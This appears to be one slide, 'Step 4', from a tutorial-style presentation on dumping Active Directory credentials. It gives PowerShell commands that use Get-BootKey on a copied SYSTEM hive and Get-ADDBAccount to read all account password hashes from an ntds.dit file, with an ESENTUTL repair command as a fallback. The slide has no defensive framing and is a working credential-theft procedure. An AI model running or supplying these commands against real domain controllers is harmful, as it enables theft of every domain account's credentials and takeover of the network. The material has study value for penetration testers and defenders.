

# Step 4

Now, to access the hashes, type the following:

$key = Get-BootKey -SystemHiveFilePath c:\temp\SYS
Get-ADDBAccount -All -BootKey $key -DBPath C:\Temp\ntds.dit
If the above command doesn’t work, simply use
ESENTUTL /p C:\temp\ntds.dit /!10240 /8 /o
in command prompt, then run the command again in powershell.
You will then be able to view all the hashes.